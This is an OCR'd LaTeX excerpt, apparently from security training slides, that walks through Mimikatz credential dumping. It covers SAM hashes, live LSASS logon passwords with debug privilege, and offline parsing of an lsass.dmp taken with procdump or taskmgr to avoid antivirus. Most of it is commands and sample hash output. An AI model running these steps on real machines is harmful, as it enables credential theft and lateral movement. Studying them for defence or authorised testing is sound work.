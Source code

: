 \begin{lstlisting}[language=sh]
mimikatz # lsadump::sam
SysKey : ea0fad2f73ad366efc9b1370
Local SID : S-1-5-21-301793094
SAMKey : 364d77a8399af95033658c14
RID : 000001F4 (500)
User : Administrator
Hash :  4771c20913beb882cb621a6
RID : 000001F5 (501)
User : Guest
NTLM :
\end{lstlisting}

\subsubsection*{Mimikatz -- Dumping Credentials from LSASS Memory}

\texttt{sekurlsa::<module>} allows to \textbf{interact with the local security authority subsystem} process memory (\textbf{LSASS.exe})

\begin{lstlisting}[language=sh]
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # log sekurlsa.log
Using 'sekurlsa.log' for logfile : OK
mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; 88038 (00000000:00157e6)
Session           : Interactive from 1
User Name         : Gentil Kiwi
Domain           : vm-w7-ult
SID              : S-1-5-21-2044528444-627255920-3055224092-1000
       msv :
        * Username : Gentil Kiwi
        * Domain   : vm-w7-ult
        * LM       : d0e9ace149655a6075e4540af1f22d3b
        * NTLM     : cc36cf7a8514893efccd332446158b1a
\end{lstlisting}

\subsubsection*{Mimikatz - Reading Credentials from LSASS memory Dump}

Interacting with lsass.exe's memory \textcolor{purple}{is enemy \#1} for defensive products (e.g. AV),\\ 
therefore obtain lsass.exe memory via other means (taskmgr, procdump, ...)

\begin{lstlisting}[language=sh]
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 88038 (00000000:00157e6)
Session           : Interactive from 1
User Name         : Gentil Kiwi
Domain           : vm-w7-ult
SID              : S-1-5-21-2044528444-627255920-3055224092-1000
       msv :
        * Username : Gentil Kiwi  
        * Domain   : vm-w7-ult
        * LM       : d0e9aee149655a6075e4540af1f22d3b
        * NTLM     : cc36cf7a8514893efccd332446158b1a
\end{lstlisting}

